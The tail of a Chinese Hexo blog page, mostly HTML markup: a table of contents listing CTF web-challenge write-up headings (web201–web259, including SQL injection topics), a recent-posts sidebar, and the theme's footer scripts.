class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%951-%E9%9D%9E%E9%A2%84%E6%9C%9Fshow%E5%92%8C%E6%B3%84%E5%AF%86%E8%B4%A6%E6%88%B7%E7%99%BB%E5%BD%95-2"><span class="toc-number">114.2.1.</span> <span class="toc-text">方法1 非预期show和泄密账户登录</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%952-%E4%BF%AE%E6%94%B9%E5%AD%97%E6%AE%B5%E5%90%8D-1"><span class="toc-number">114.2.2.</span> <span class="toc-text">方法2 修改字段名</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web201%E2%80%93sqlmap"><span class="toc-number">115.</span> <span class="toc-text">web201–sqlmap</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-109"><span class="toc-number">115.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-104"><span class="toc-number">115.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web202"><span class="toc-number">116.</span> <span class="toc-text">web202</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-110"><span class="toc-number">116.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-105"><span class="toc-number">116.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%951-1"><span class="toc-number">116.2.1.</span> <span class="toc-text">方法1</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%952-1"><span class="toc-number">116.2.2.</span> <span class="toc-text">方法2</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web203"><span class="toc-number">117.</span> <span class="toc-text">web203</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-111"><span class="toc-number">117.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-106"><span class="toc-number">117.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web204"><span class="toc-number">118.</span> <span class="toc-text">web204</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-112"><span class="toc-number">118.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-107"><span class="toc-number">118.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web205"><span class="toc-number">119.</span> <span class="toc-text">web205</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-113"><span class="toc-number">119.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-108"><span class="toc-number">119.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web206"><span class="toc-number">120.</span> <span class="toc-text">web206</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-114"><span class="toc-number">120.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-109"><span class="toc-number">120.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web207"><span class="toc-number">121.</span> <span class="toc-text">web207</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-115"><span class="toc-number">121.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-110"><span class="toc-number">121.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web208"><span class="toc-number">122.</span> <span class="toc-text">web208</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-116"><span class="toc-number">122.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-111"><span class="toc-number">122.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web209"><span class="toc-number">123.</span> <span class="toc-text">web209</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-117"><span class="toc-number">123.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-112"><span class="toc-number">123.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E8%84%9A%E6%9C%AC2%E2%80%93%E5%85%B6%E5%AE%83%E5%8D%9A%E4%B8%BB%E7%9A%84%E6%8F%92%E4%BB%B6"><span class="toc-number">123.2.1.</span> <span class="toc-text">脚本2–其它博主的插件</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E5%85%B7%E4%BD%93%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87%E6%96%B9%E5%BC%8F-%E9%99%90%E5%88%B6%E6%96%B9%E5%BC%8F"><span class="toc-number">123.2.2.</span> <span class="toc-text">具体过滤绕过方式&#x2F;限制方式</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web210"><span class="toc-number">124.</span> <span class="toc-text">web210</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-118"><span class="toc-number">124.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-113"><span class="toc-number">124.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web211"><span class="toc-number">125.</span> <span class="toc-text">web211</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-119"><span class="toc-number">125.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-114"><span class="toc-number">125.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web212"><span class="toc-number">126.</span> <span class="toc-text">web212</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-120"><span class="toc-number">126.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-115"><span class="toc-number">126.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web213"><span class="toc-number">127.</span> <span class="toc-text">web213</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-121"><span class="toc-number">127.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-116"><span class="toc-number">127.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web214%E2%80%93%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8"><span class="toc-number">128.</span> <span class="toc-text">web214–时间盲注</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-122"><span class="toc-number">128.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-117"><span class="toc-number">128.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web215"><span class="toc-number">129.</span> <span class="toc-text">web215</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-123"><span class="toc-number">129.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-118"><span class="toc-number">129.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web216"><span class="toc-number">130.</span> <span class="toc-text">web216</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-124"><span class="toc-number">130.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-119"><span class="toc-number">130.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web217"><span class="toc-number">131.</span> <span class="toc-text">web217</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-125"><span class="toc-number">131.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-120"><span class="toc-number">131.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web218"><span class="toc-number">132.</span> <span class="toc-text">web218</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-126"><span class="toc-number">132.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-121"><span class="toc-number">132.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web219"><span class="toc-number">133.</span> <span class="toc-text">web219</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-127"><span class="toc-number">133.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-122"><span class="toc-number">133.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web220"><span class="toc-number">134.</span> <span class="toc-text">web220</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-128"><span class="toc-number">134.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-123"><span class="toc-number">134.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web221-limit%E6%B3%A8%E5%85%A5"><span class="toc-number">135.</span> <span class="toc-text">web221-limit注入</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-129"><span class="toc-number">135.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-124"><span class="toc-number">135.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web222-group-by"><span class="toc-number">136.</span> <span class="toc-text">web222-group by</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-130"><span class="toc-number">136.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-125"><span class="toc-number">136.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web223"><span class="toc-number">137.</span> <span class="toc-text">web223</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-131"><span class="toc-number">137.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-126"><span class="toc-number">137.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web224"><span class="toc-number">138.</span> <span class="toc-text">web224</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-132"><span class="toc-number">138.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-127"><span class="toc-number">138.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web225"><span class="toc-number">139.</span> <span class="toc-text">web225</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web226"><span class="toc-number">140.</span> <span class="toc-text">web226</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web227"><span class="toc-number">141.</span> <span class="toc-text">web227</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web228"><span class="toc-number">142.</span> <span class="toc-text">web228</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web229"><span class="toc-number">143.</span> <span class="toc-text">web229</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web230"><span class="toc-number">144.</span> <span class="toc-text">web230</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web231"><span class="toc-number">145.</span> <span class="toc-text">web231</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web232"><span class="toc-number">146.</span> <span class="toc-text">web232</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web233"><span class="toc-number">147.</span> <span class="toc-text">web233</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web234"><span class="toc-number">148.</span> <span class="toc-text">web234</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web235"><span class="toc-number">149.</span> <span class="toc-text">web235</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web236"><span class="toc-number">150.</span> <span class="toc-text">web236</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web237"><span class="toc-number">151.</span> <span class="toc-text">web237</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web238"><span class="toc-number">152.</span> <span class="toc-text">web238</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web239"><span class="toc-number">153.</span> <span class="toc-text">web239</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web240"><span class="toc-number">154.</span> <span class="toc-text">web240</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web241"><span class="toc-number">155.</span> <span class="toc-text">web241</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web242"><span class="toc-number">156.</span> <span class="toc-text">web242</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web243"><span class="toc-number">157.</span> <span class="toc-text">web243</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web244"><span class="toc-number">158.</span> <span class="toc-text">web244</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web245"><span class="toc-number">159.</span> <span class="toc-text">web245</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web246"><span class="toc-number">160.</span> <span class="toc-text">web246</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web247"><span class="toc-number">161.</span> <span class="toc-text">web247</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web248"><span class="toc-number">162.</span> <span class="toc-text">web248</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web249"><span class="toc-number">163.</span> <span class="toc-text">web249</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web250"><span class="toc-number">164.</span> <span class="toc-text">web250</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web251"><span class="toc-number">165.</span> <span class="toc-text">web251</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web252"><span class="toc-number">166.</span> <span class="toc-text">web252</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web253"><span class="toc-number">167.</span> <span class="toc-text">web253</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web254"><span class="toc-number">168.</span> <span class="toc-text">web254</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web255"><span class="toc-number">169.</span> <span class="toc-text">web255</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web256"><span class="toc-number">170.</span> <span class="toc-text">web256</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web257"><span class="toc-number">171.</span> <span class="toc-text">web257</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web258"><span class="toc-number">172.</span> <span class="toc-text">web258</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web259"><span class="toc-number">173.</span> <span class="toc-text">web259</span></a></li></ol></div></div><div class="card-widget card-recent-post"><div class="item-headline"><i class="fas fa-history"></i><span>最新文章</span></div><div class="aside-list"><div class="aside-list-item"><a class="thumbnail" href="/2024/02/09/PenetrationTestingStudy-00001/" title="渗透测试学习-00001"></a><div class="content"><a class="title" href="/2024/02/09/PenetrationTestingStudy-00001/" title="渗透测试学习-00001">渗透测试学习-00001</a><time datetime="2024-02-09T15:19:42.000Z" title="发表于 2024-02-09 23:19:42">2024-02-09</time></div></div><div class="aside-list-item"><a class="thumbnail" href="/2024/02/08/C-Study-0001/" title="C-Study-0001"></a><div class="content"><a class="title" href="/2024/02/08/C-Study-0001/" title="C-Study-0001">C-Study-0001</a><time datetime="2024-02-08T06:57:11.000Z" title="发表于 2024-02-08 14:57:11">2024-02-08</time></div></div><div class="aside-list-item"><a class="thumbnail" href="/2024/02/07/CTF-Pwn-book-0001/" title="CTF-Pwn-总结-0001"></a><div class="content"><a class="title" href="/2024/02/07/CTF-Pwn-book-0001/" title="CTF-Pwn-总结-0001">CTF-Pwn-总结-0001</a><time datetime="2024-02-06T22:41:54.000Z" title="发表于 2024-02-07 06:41:54">2024-02-07</time></div></div><div class="aside-list-item"><a class="thumbnail" href="/2024/02/06/Pwn-study-0001/" title="Pwn-题目学习-0001"></a><div class="content"><a class="title" href="/2024/02/06/Pwn-study-0001/" title="Pwn-题目学习-0001">Pwn-题目学习-0001</a><time datetime="2024-02-06T14:04:11.000Z" title="发表于 2024-02-06 22:04:11">2024-02-06</time></div></div><div class="aside-list-item"><a class="thumbnail" href="/2024/02/06/CVE-Study-01/" title="CVE-相关靶场测试学习"></a><div class="content"><a class="title" href="/2024/02/06/CVE-Study-01/" title="CVE-相关靶场测试学习">CVE-相关靶场测试学习</a><time datetime="2024-02-06T05:08:29.000Z" title="发表于 2024-02-06 13:08:29">2024-02-06</time></div></div></div></div></div></div></main><footer id="footer"><div id="footer-wrap"><div class="copyright">&copy;2020 - 2024 By 矢幽武</div><div class="framework-info"><span>框架 </span><a target="_blank" rel="noopener" href="https://hexo.io">Hexo</a><span class="footer-separator">|</span><span>主题 </span><a target="_blank" rel="noopener" href="https://github.com/jerryc127/hexo-theme-butterfly">Butterfly</a></div></div></footer></div><div id="rightside"><div id="rightside-config-hide"><button id="readmode" type="button" title="阅读模式"><i class="fas fa-book-open"></i></button><button id="darkmode" type="button" title="浅色和深色模式转换"><i class="fas fa-adjust"></i></button><a class="icon-V hidden" onclick="switchNightMode()" title="浅色和深色模式转换"><svg width="25" height="25" viewBox="0 0 1024 1024"><use id="modeicon" xlink:href="#icon-moon"></use></svg></a><button id="hide-aside-btn" type="button" title="单栏和双栏切换"><i class="fas fa-arrows-alt-h"></i></button></div><div id="rightside-config-show"><button id="rightside_config" type="button" title="设置"><i class="fas fa-cog fa-spin"></i></button><button class="close" id="mobile-toc-button" type="button" title="目录"><i class="fas fa-list-ul"></i></button><a id="to_comment" href="#post-comment" title="直达评论"><i class="fas fa-comments"></i></a><button id="go-up" type="button" title="回到顶部"><span class="scroll-percent"></span><i class="fas fa-arrow-up"></i></button></div></div><div><script src="/js/utils.js"></script><script src="/js/main.js"></script><script src="https://cdn.jsdelivr.net/npm/@fancyapps/ui/dist/fancybox.umd.min.js"></script><div class="js-pjax"><script>(()=>{
  const init = () => {
    twikoo.init(Object.assign({
      el: '#twikoo-wrap',
      envId: 'https://linxiao-wangchuan.vercel.app/',
      region: 'ap-shanghai',
      onCommentLoaded: function () {
        btf.loadLightbox(document.querySelectorAll('#twikoo .tk-content img:not(.tk-owo-emotion)'))
      }
    }, {"emotion":"twemoji","placeholder":"在此处输入评论"}))
  }

  const getCount = () => {
    const countELement = document.getElementById('twikoo-count')
    if(!countELement) return
    twikoo.getCommentsCount({
      envId: 'https://linxiao-wangchuan.vercel.app/',
      region: 'ap-shanghai',
      urls: [window.location.pathname],
      includeReply: false
    }).then(function (res) {
      countELement.innerText = res[0].count
    }).catch(function (err) {
      console.error(err);
    });
  }

  const runFn = () => {
    init()
    
  }

  const loadTwikoo = () => {
    if (typeof twikoo === 'object') {
      setTimeout(runFn,0)
      return
    } 
    getScript('https://cdn.jsdelivr.net/npm/twikoo/dist/twikoo.all.min.js').then(runFn)
  }

  if ('Twikoo' === 'Twikoo' || ![object Object]) {
    if ([object Object]) btf.loadComment(document.getElementById('twikoo-wrap'), loadTwikoo)
    else loadTwikoo()
  } else {
    window.loadOtherComment = () => {
      loadTwikoo()
    }
  }
})()</script></div><canvas id="universe"></canvas><script defer src="/js/universe.js"></script><script src="/js/sun_moon.js" async></script><div class="aplayer no-destroy" data-id="5183531430" data-server="netease" data-type="playlist" data-fixed="true" data-mini="true" data-listFolded="false" data-order="random" data-preload="none" data-autoplay="false" muted></div><div class="aplayer no-destroy" data-id="5183531430" data-server="netease" data-type="playlist" data-fixed="true" data-mini="true" data-listFolded="false" data-order="random" data-preload="none" data-autoplay="false" muted></div><canvas class="fireworks" mobile="false"></canvas><script src="https://cdn.jsdelivr.net/npm/butterfly-extsrc/dist/fireworks.min.js"></script><script defer="defer" id="ribbon" src="https://cdn.jsdelivr.net/npm/butterfly-extsrc/dist/canvas-ribbon.min.js" size="150" alpha="0.6" zIndex="-1" mobile="false" data-click="true"></script><script src="https://cdn.jsdelivr.net/npm/butterfly-extsrc/dist/activate-power-mode.min.js"></script><script>POWERMODE.colorful = true;
POWERMODE.shake = true;
POWERMODE.mobile = true;
document.body.addEventListener('input', POWERMODE);
</script><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/aplayer/dist/APlayer.min.css" media="print" onload="this.media='all'"><script src="https://cdn.jsdelivr.net/npm/aplayer/dist/APlayer.min.js"></script><script src="https://cdn.jsdelivr.net/npm/butterfly-extsrc/metingjs/dist/Meting.min.js"></script><script async data-pjax src="//busuanzi.ibruce.info/busuanzi/2.3/busuanzi.pure.mini.js"></script></div><div id="local-search"><div class="search-dialog"><nav class="search-nav"><span class="search-dialog-title">搜索</span><span id="loading-status"></span><button class="search-close-button"><i class="fas fa-times"></i></button></nav><div class="is-center" id="loading-database"><i class="fas fa-spinner fa-pulse"></i><span>  数据库加载中</span></div><div class="search-wrap"><div id="local-search-input"><div class="local-search-box"><input class="local-search-box--input" placeholder="搜索文章" type="text"/></div></div><hr/><div id="local-search-results"></div></div></div><div id="search-mask"></div><script src="/js/search/local-search.js"></script></div><!-- hexo injector body_end start --><script data-pjax>
  function butterfly_clock_anzhiyu_injector_config(){
    var parent_div_git = document.getElementsByClassName('sticky_layout')[0];
    var item_html = '<div class="card-widget card-clock"><div class="card-glass"><div class="card-background"><div class="card-content"><div id="hexo_electric_clock"></div></div></div></div></div>';
    console.log('已挂载butterfly_clock_anzhiyu')
    if(parent_div_git) {
      parent_div_git.insertAdjacentHTML("afterbegin",item_html)
    }
  }
  var elist = '/2022/,/2023/,/2024/'.split(',');
  var cpage = location.pathname;
  var epage = 'all';
  var qweather_key = 'eb7ef47cda914d65b0b394ce50c15242';
  var gaud_map_key = 'e2b04289e870b005374ee030148d64fd&s=rsv3';
  var baidu_ak_key = 'undefined';
  var flag = 0;
  var clock_rectangle = '112.982279,28.19409';
  var clock_default_rectangle_enable = 'true';

  for (var i=0;i<elist.length;i++){
    if (cpage.includes(elist[i])){
      flag++;
    }
  }

  if ((epage ==='all')&&(flag == 0)){
    butterfly_clock_anzhiyu_injector_config();
  }
  else if (epage === cpage){
    butterfly_clock_anzhiyu_injector_config();
  }
  </script><script src="https://widget.qweather.net/simple/static/js/he-simple-common.js?v=2.0"></script><script data-pjax src="https://cdn.cbd.int/hexo-butterfly-clock-anzhiyu/lib/clock.min.js"></script><!-- hexo injector body_end end --></body></html>